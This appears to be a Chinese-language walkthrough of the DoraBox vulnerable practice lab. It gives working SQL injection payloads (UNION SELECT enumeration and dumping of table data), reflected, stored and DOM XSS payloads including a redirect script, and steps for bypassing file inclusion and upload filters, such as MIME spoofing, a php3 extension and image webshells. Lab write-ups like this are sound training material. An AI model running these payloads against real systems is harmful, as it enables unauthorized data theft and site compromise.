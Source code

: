 # DoraBox

# Sql注入

## 第一关，sql注入数字型


源码中id是htmlspecialchars过滤的，过滤是过滤单引号，双引号，尖括号和&的，但是过滤的是html实体并不会影响我们的操作

![image-20220226143949141](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261439284.png)

### 1、测试参数位置

```
-1 union select 1,2,3
```



### ![image-20220226144057400](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261440461.png)2、爆数据库：

```
-1 union select 1,user(),database()
```

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261441408.png)

### 3、爆表：

```
-1 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```



### 4、爆列名：

```
-1 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='news'
```



### 5、爆值：

```
-1 UNION SELECT 1,2,concat_ws('|',id,title,content) from news
```

![image-20220226144410955](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261444010.png)

## 第二关，Sql注入字符型


这关和之前是差不多的，就是要闭合一下单引号即可

![image-20220226144539257](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261445380.png)

```
DoraBox' and '1'='2' union select 1,2,3'
```

![image-20220226144634958](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261446000.png)

### 爆表:

```
DoraBox' and '1'='2' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20220226144816563](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261448631.png)

### 爆列名:

```
DoraBox' and '1'='2' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='news'#
```

![image-20220226144858626](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261448690.png)

### 爆值：

DoraBox' and '1'='2' UNION SELECT 1,2,concat_ws('|',id,title,content) from news#

![image-20220226144927164](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261449209.png)

## 第二关,Sql注入搜索型

这里百分号和单引号都需要闭合

![image-20220226145003517](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261450574.png)

### 爆表：

```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```



### 爆列：

```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='pentest' and table_name='account'#
```



### 爆数据：

```
-1' union select 1,2,concat_ws(",",id,rest,own) from account#


```

# Xss跨站

## Xss反射型

```
<script>alert(/XSS/)</script>
```

源码里会打印内容

![image-20220226145148336](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261451412.png)

当然我们还可以在本地搭建一个xss

在网站上输入:

```
<script>location.href='http://www.test.com/xss/1.php'</script>
```



就会跳转到这个页面然后中了我们的xss代码



## Xss存储型

这个xss是存储到数据库里的，每次刷新当前页面都会执行

先输入`<script>alert(/XSS/)</script>`，然后刷新页面就会执行

![image-20220226145336767](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261453818.png)





## Xssdom型

输入`<script>alert(/DOM_xss/)</script>`

这里会打印我们的xss代码

![image-20220226145416778](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261454825.png)



# 文件包含

## 任意文件包含

直接输入 txt.txt包含文件

![image-20220226145747983](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261457151.png)

源码中，这里是直接包含的，中间没有过滤

## 目录限制文件包含

源码这里其实并没有限制目录文件包含

./点斜杠其实是指当前目录的意思，并没有起到限制的作用

![image-20220226150042838](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261500908.png)



# 文件上传

## 任意文件上传

这个页面上传什么文件都可以，不多介绍

![image-20220226150152450](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261501497.png)

![image-20220226150242135](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261502247.png)





## Js限制文件上传

直接限制了我们上传php文件

![image-20220226150339654](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261503784.png)

在上传处审计元素

这里只要把onsubmit直接删掉让js代码不起作用即可

![image-20220226150622397](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261506463.png)

## Mime限制上传

只要是这四种类型的mime都给上传，那我们直接抓包Content-Type改下即可

![image-20220226151403798](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261514885.png)

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261514350.png)

## 扩展名限制文件上传


这里源码中限制了一些后缀，我们把后缀改成php3即可

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261515642.png)



## 内容限制上传

这关可以直接用图片马来绕过

![image-20220226151806303](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261518357.png)

